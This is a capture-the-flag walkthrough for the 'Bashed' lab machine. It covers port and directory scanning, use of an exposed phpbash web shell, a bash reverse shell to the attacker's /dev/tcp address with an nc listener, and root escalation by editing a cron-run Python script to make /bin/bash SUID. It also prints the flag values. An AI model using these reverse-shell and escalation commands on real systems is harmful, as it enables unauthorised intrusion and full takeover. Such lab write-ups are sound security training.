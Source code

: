 ![Bashed.PNG](/assets/Machines/Easy/Bashed/Bashed.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.68
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.68
```

**Output**
```bash
PORT   STATE SERVICE
80/tcp open  http
```

3. Visit web page

![web.PNG](/assets/Machines/Easy/Bashed/web.PNG)

4. If you search in the web page, you find **phpbash** file, now we can try to access this.

![phpbash.PNG](/assets/Machines/Easy/Bashed/phpbash.PNG)


5. With **gobuster** find directories or files in web page.
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Bashed]
└─| gobuster dir -u http://10.10.10.68 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

**Output**
```bash
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/server-status        (Status: 403) [Size: 299]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
```

6. Visit `dev` directory

![dev.PNG](/assets/Machines/Easy/Bashed/dev.PNG)

7. Use `phpbash.php`

**Output**
![bash.PNG](/assets/Machines/Easy/Bashed/bash.PNG)

8. Run script to obtain a shell in yout terminal and manipulate more easy.

Script: `bash -c "bash -i >%26 /dev/tcp/<tun0 IP?/<Port> 0>%261`

9. Listen with **nc**
10. Run script in **phpbash.php**

11. You obtain shell
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Bashed]
└─| nc -lvnp 443                                          
listening on [any] 443 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.68] 49106
bash: cannot set terminal process group (847): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bashed:/home/arrexel$
```

12. Cat **user flag**
```bash
www-data@bashed:/home/arrexel$ cat user.txt 
67d0fe254ed0afaddb284b95495128c4
```

---
---
---
### **Privileges Escalation** 💀
1. List all files in `/scripts`
```bash
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
```

2. Modify **test.py** to obtain permission SUID for `bash`
```python
import os;
os.system("chmod u+s /bin/bash")
```

3. Wait a moment and view permissions for `/bin/bash`
```bash
scriptmanager@bashed:/scripts$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
```

4. Spawn terminal how root
```bash
scriptmanager@bashed:/scripts$ bash -p 
bash-4.3# whoami
root
```

5. Cat **root flag**
```bash
bash-4.3# cat /root/root.txt 
5f15047807e32538a5b9d5d8447bba25
```